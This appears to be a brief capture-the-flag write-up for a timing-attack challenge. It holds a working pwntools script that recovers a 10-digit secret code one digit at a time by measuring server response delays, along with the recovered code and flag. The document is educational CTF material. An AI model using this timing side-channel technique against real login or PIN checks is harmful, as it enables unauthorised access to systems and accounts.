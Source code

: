 ```yaml
---
created: 2024-06-22T07:29
updated: 2024-06-22T07:42
---
```

It seems that the validation step would take a very  long time, which means its gonna be the delay attack!
i.e. measure the time between you sending the data, and the server responding with "Wrong"


```python
from pwn import *
from time import perf_counter

def time_char(ch):
    conn.recvuntil(b"Enter the secret code: ")
    conn.sendline(ch)
    start = perf_counter()
    res = conn.recvline()
    time = perf_counter() - start
    if b'Wrong!\n' != res:
        print(f"Found: {ch}")
        print(f"Time: {time}")
        print(res)
        print(conn.recvall())
        conn.interactive()
        return 0
    return time

conn = remote("chal-lz56g6.wanictf.org", 5000)
conn.recvuntil(b"Enter the cheat code: ")
conn.sendline(b"A"*50)

curr = b''
for j in range(10):
    res = [time_char((curr + str(i).encode()).ljust(10, b'0')) for i in range(10)]
    min_index = res.index(min(res))
    curr+=str(min_index).encode()
    print(f"Current: {curr} {res[min_index]} {res}")
```
Current: b'2' 1.0258064000081504
Current: b'24' 0.9410080999950878
Current: b'244' 0.8268128000054276
Current: b'2443' 0.7246176000044215
Current: b'24438' 0.6052523999969708
Current: b'244388' 0.5313083000073675
Current: b'2443889' 0.40315929999633227
Current: b'24438896' 0.28107090000412427
Found: b'2443889630'
Time: 0.17056149999552872
b'Correct!\n'
b'FLAG{t1m!ng_a774ck_1s_f34rfu1}\n'
```